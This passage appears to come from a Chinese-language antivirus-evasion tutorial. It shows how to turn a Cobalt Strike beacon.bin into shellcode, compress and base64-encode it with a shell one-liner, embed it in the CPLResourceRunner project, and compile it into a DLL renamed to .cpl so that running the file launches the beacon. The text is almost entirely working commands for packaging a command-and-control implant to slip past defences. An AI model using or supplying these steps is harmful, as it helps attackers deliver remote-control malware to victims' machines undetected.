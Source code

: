然后用`ConvertShellcode.py`将生成的`beacon.bin`转换成`shellcode.txt`

```
python ConvertShellcode.py beacon.bin
```

然后再转换成base64编码。

```
cat shellcode.txt |sed 's/[, ]//g; s/0x//g;' |tr -d '\n' |xxd -p -r |gzip -c |base64 > b64shellcode.txt
```

![3108fdb0dd713c10f3b9076bd00ad6b7](images/2020.03-bypass-04/20.png)

把生成的base64编码的shellcode复制到项目资源`CPLResourceRunner/Resources.txt`里。

编译生成dll，并将生成的`CPLResourceRunner.dll`重命名为`.cpl`文件，之后执行即可。

![0b0dec3013be1642cf18e28ec1060e3d](images/2020.03-bypass-04/21.png)

